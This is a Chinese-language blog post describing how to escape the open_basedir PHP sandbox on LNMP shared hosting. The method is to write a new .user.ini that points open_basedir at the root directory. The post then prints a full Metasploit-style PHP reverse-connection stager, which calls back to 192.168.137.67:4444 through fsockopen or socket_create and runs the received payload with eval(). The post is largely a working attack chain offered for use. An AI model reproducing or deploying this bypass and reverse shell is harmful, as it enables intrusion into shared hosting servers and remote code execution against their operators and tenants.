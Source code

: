```yaml
---
layout: post
title: LNMP虚拟主机PHP沙盒逃逸
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;并不只是针对Lnmp的沙盒逃逸，而是.user.ini的设计缺陷达到绕过open_basedir限制，所以是通用的方法。首先来看看最新版LNMP是怎么配置open_basedir的：

    open_basedir=/home/wwwroot/default:/tmp/:/proc/

    lsattr .user.ini
    ----i----------- .user.ini

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LNMP的open_basedir是通过.user.ini来配置的。再来看disable_functions都禁用了哪些函数：

    lnmp1.3/include/php.sh

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/5ethrdfb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注意到了stream_socket_server被禁用了。这个是用来建立Socket服务端的，完全可以使用其他可创建socket服务端的函数进行反弹个socket会话，比如socket_create、 fsockopen。不过虽是可以建立socket会话，但group为www，所以这个留在后面结合使用。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;.user.ini是不允许增删改的，那怎样能突破限制？.user.ini只在当前目录生效了。那么我们可不可以写入新的.user.ini并且不与原.user.ini冲突，将其open_basedir指向根目录？可以的。


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;首先创建一个目录并写入新的.user.ini。新的.user.ini需要1-3min来生效。

    open_basedir=/

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;最后结合socket，使用msf在新目录生成个反向代理payload并稍加更改就可以了。

    <?php
    error_reporting(0);
    
    $ip = '192.168.137.67';
    $port = 4444;
    $ipf = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
    	$ip = "[". $ip ."]";
    	$ipf = AF_INET6;
    }
    if (($f = 'fsockopen') && is_callable($f)) {
    	$s = $f($ip, $port);
    	$s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
    	$s = $f($ipf, SOCK_STREAM, SOL_TCP);
    	$res = @socket_connect($s, $ip, $port);
    	if (!$res) {
    		die(); 
    	}
    	$s_type = 'socket';
    } else {
    	die('no socket funcs');
    }
    if (!$s) {
    	die('no socket');
    }
    
    switch ($s_type) {
    	case 'stream': $len = fread($s, 4); break;
    	case 'socket': $len = socket_read($s, 4); break;
    }
    
    if (!$len) {
    	die();
    }
    
    $a = unpack("Nlen", $len); $len = $a['len'];
    $b = '';
    while (strlen($b) < $len) {
    	switch ($s_type) {
    		case 'stream': $b .= fread($s, $len-strlen($b)); break;
    		case 'socket': $b .= socket_read($s, $len-strlen($b)); break;
    	}
    }
    $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ?>

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/rsd.png">